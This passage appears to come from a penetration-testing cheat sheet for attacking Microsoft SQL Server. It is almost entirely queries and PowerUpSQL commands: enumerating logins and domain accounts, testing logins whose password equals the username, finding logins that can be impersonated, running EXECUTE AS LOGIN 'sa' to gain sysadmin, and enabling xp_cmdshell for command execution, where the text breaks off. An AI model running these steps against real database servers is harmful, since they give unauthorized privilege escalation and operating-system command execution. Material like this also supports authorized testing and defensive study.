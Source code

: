 ````
 
SELECT SUSER_NAME(1)
SELECT SUSER_NAME(2)
SELECT SUSER_NAME(3)

Get-SQLFuzzServerLogin -Instance <COMPUTERNAME>\<INSTANCENAME>
```
 
#### Blind SQL Domain Account Enum.
```
-- Get the domain where SQL Server is.--
SELECT DEFAULT_DOMAIN() as mydomain
-- Full RID of Domain Admins group.--
SELECT SUSER_SID('<Identified_Domain>\Domain Admins')
-- grab the first 48 bytes of the full RID to get domain’s SID. Create a new RID (will be associated with a domain object) by appending a hex number value to the previous SID. --
SELECT SUSER_NAME(RID) –> Get the domain object name associated to the RID.

Get-SQLFuzzDomainAccount -Instance <COMPUTERNAME>\<INSTANCENAME>
```

#### Check for weak passwords or default credentials
- Enumerate all SQL Logins as least privilege user and test username as password.
```
Get-SQLInstanceDomain | Invoke-SQLAuditWeakLoginPw -Verbose
```
 
### Impersonation attack
#### Check if impersonation is possible PowerUpSQL
- Might be able to use the ```-exploit``` flag to exploit it
```
Invoke-SQLAuditPrivImpersonateLogin -Instance <SQL INSTANCE> -Verbose -Debug
```

#### Check if impersonation is possible
```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

#### Impersonate a user 
- Might be possible to impersonate user a and then user b and then sa!
```
-- Verify you are still running as the normal user login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
````